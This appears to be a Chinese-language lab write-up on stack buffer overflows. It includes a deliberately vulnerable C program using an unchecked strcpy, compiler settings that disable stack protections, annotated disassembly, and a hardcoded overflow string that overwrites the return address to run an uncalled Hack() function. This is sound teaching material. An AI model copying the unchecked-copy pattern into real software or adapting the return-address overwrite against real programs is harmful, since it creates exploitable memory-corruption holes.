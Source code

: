 # 缓冲区溢出
## 缓冲区溢出漏洞分析原理
通过实现理解缓冲区溢出漏洞的原理，清楚在程序调用过程中内存栈的变化。
### 源代码


    #define _CRT_SECURE_NO_WARNINGS

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    int sub(char* x)
    {
      char y[10];
      strcpy(y, x);
      return 0;
    }

    int main(int argc, char** argv)
    {
      if (argc > 1)
      sub(argv[1]);
      printf("exit");
    }
* 运行时项目属性设置：  
1.'c/c++'---'代码生成'---'启用C++异常'设置为空---'基本运行时检查'设置为空---'安全检查'设置为'禁用安全检查（/GS-）'  
2.'c/c++'---'所有选项'---'SDL检查'设置为否
* 命令参数设置：'设置属性'---'调试'---'命令参数'设置的参数由短到长查看EBP,EIP,ESP的变化
如下图：
![](images/setting1.png)
### 反汇编代码
    
    int sub(char* x)
    {
    007D1580 55                   push        ebp  //局部变量入栈
    007D1581 8B EC                mov         ebp,esp  
    007D1583 83 EC 4C             sub         esp,4Ch  
    007D1586 53                   push        ebx  
    007D1587 56                   push        esi  
    007D1588 57                   push        edi  
    007D1589 B9 08 90 7D 00       mov         ecx,7D9008h  
    007D158E E8 1B FC FF FF       call        007D11AE  
	char y[10];
	strcpy(y, x);
    007D1593 8B 45 08             mov         eax,dword ptr [ebp+8]  
    007D1596 50                   push        eax  
    007D1597 8D 4D F4             lea         ecx,[ebp-0Ch]  
    007D159A 51                   push        ecx  
    007D159B E8 3B FC FF FF       call        007D11DB  //调用函数，并将函数下一条指令入栈
    007D15A0 83 C4 08             add         esp,8  
	return 0;
    007D15A3 33 C0                xor         eax,eax  
    }
    

    int main(int argc, char** argv)
    {
    007D1650 55                   push        ebp  //ebp入栈
    007D1651 8B EC                mov         ebp,esp  //esp指向ebp位置
    007D1653 83 EC 40             sub         esp,40h  //esp减40h,上移
    007D1656 53                   push        ebx  //ebx入栈
    007D1657 56                   push        esi  //esi入栈
    007D1658 57                   push        edi  //edi入栈
    007D1659 B9 08 90 7D 00       mov         ecx,7D9008h  //7D9008h的值给ecx
    007D165E E8 4B FB FF FF       call        007D11AE  //调用函数
	if (argc > 1)
    007D1663 83 7D 08 01          cmp         dword ptr [ebp+8],1 // 
    007D1667 7E 17                jle         007D1680  //不大于跳转，大于顺序执行
		sub(argv[1]);
    007D1669 B8 04 00 00 00       mov         eax,4  //eax=4
    007D166E C1 E0 00             shl         eax,0  //eax值没变
    007D1671 8B 4D 0C             mov         ecx,dword ptr [ebp+0Ch]//ecx的值等于ebp+0Ch的值  
    007D1674 8B 14 01             mov         edx,dword ptr [ecx+eax]  //edx的值等于ebp+0Ch+4的值
		sub(argv[1]);
    007D1677 52                   push        edx  
    007D1678 E8 73 FA FF FF       call        007D10F0  
    007D167D 83 C4 04             add         esp,4  
	printf("exit");
    007D1680 68 30 5B 7D 00       push        7D5B30h  
    007D1685 E8 AD F9 FF FF       call        007D1037  
    007D168A 83 C4 04             add         esp,4  
    }
    007D168D 33 C0                xor         eax,eax  
    007D168F 5F                   pop         edi  //之后都在出栈
    007D1690 5E                   pop         esi  
    007D1691 5B                   pop         ebx  
    007D1692 8B E5                mov         esp,ebp  
    007D1694 5D                   pop         ebp  
    007D1695 C3                   ret             //退出程序
打开反汇编、寄存器、内存观察寄存器的变化，分析内存中的数据变化：  
1.EIP指向当前指向指令所在的地址，由下图可以看到，eip的值会随着程序执行而变化
![](images/eipchange.png)
2.ESP是栈顶指针，当调用函数时，ESP的值会减小
![](images/espchange.png)
### 分析画图
关于内存中数据变化的分析如下图所示
![](images/analysis-graph.jpg)

## 缓冲区溢出漏洞利用
根据缓冲区溢出漏洞原理，执行未被调用的函数
### 实验步骤
实验代码
```
#define _CRT_SECURE_NO_WARNINGS
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int sub(char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}
void Hack()
{
	printf("You are hacked!");
}
int main(int argc, char** argv)
{
	char str[30] = "aaabaaacaaadaaae\x80\x15\x21\x03";
	sub(str);
  #实现Hach函数时使用以上两行
  #寻找溢出边界时使用以下两行
	//if (argc > 1)
		//sub(argv[1]);
	printf("exit");
}
```
更改命令参数设置(由于太长，此处以报错时的内存显示具体字符串值)
![](images/setting3.png)
* 一定要用有规律的字符串，由于初次没有使用有规律的字符串，出错了，很久都没有找到原因，也无法解决
* 之后再次反思，其实不用命令参数设置，直接使用字符串为"aaabaaacaaadaaaeaaafaaagaaah"字符串，直接找到返回函数地址然后替换即可

调试执行，看到如下图出现报错，函数返回失败。说明是在0x66616161的位置出现了溢出报错，因为将此处换为Hack()函数的地址，来执行Hack()函数
![](images/wrongalert.png)
反汇编找到Hach函数的地址
![](images/address.png)
因此替换0x66616161处的地址后，字符串为"aaabaaacaaadaaae\x80\x15\x21\x03",执行以后看到如下结果。  
![](images/result.png)

## 实验总结
1. 调用strcpy等拷贝函数前应该先检查参数长度，清楚参数的含义    
2. 可以利用缓冲区溢出漏洞，由于拷贝的参数太长，会覆盖栈中被拷贝参数以下的数据，比如返回地址被拷贝之后无法正确执行就会报错，因此根据报错可以寻找到返回地址，替换为我们需要执行的目标函数的地址，从而执行目标代码，或者访问到对方不想让我们访问的数据 
